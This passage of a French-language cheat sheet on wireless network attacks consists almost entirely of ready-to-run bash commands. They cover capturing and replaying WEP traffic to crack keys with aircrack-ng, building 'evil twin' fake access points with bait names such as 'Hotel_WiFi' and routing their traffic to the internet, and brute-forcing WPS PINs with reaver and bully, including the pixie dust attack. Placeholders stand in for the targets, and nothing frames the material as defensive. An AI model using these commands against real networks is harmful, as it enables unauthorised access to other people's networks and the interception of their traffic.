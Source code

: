 ### Capture IVs pour WEP
```bash
# Capture trafic WEP
sudo airodump-ng -c [CHANNEL] --bssid [TARGET_BSSID] -w wep_capture wlan0mon

# Injection pour augmenter IVs
sudo aireplay-ng --arpreplay -b [TARGET_BSSID] -h [CLIENT_MAC] wlan0mon

# Fake authentication
sudo aireplay-ng --fakeauth 0 -a [TARGET_BSSID] -h [YOUR_MAC] wlan0mon
```

### Crackage WEP
```bash
# Crackage automatique
aircrack-ng wep_capture-01.cap

# Avec plus de 40-bit keys
aircrack-ng -n 64 wep_capture-01.cap

# Force 128-bit
aircrack-ng -n 128 wep_capture-01.cap
```

## 🎭 Techniques d'Attaque Avancées

### Evil Twin Attack
```bash
# Création faux AP
sudo airbase-ng -e "FreeWiFi" -c 6 wlan0mon

# Avec captive portal
sudo airbase-ng -e "Hotel_WiFi" -c 6 -P wlan0mon

# Bridge vers internet
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

### WPS Attacks
```bash
# Scan WPS enabled
wash -i wlan0mon

# Reaver WPS attack
reaver -i wlan0mon -b [TARGET_BSSID] -vv

# Pixie dust attack
reaver -i wlan0mon -b [TARGET_BSSID] -K -vv

# Bully alternative
bully -b [TARGET_BSSID] -c [CHANNEL] wlan0mon
```
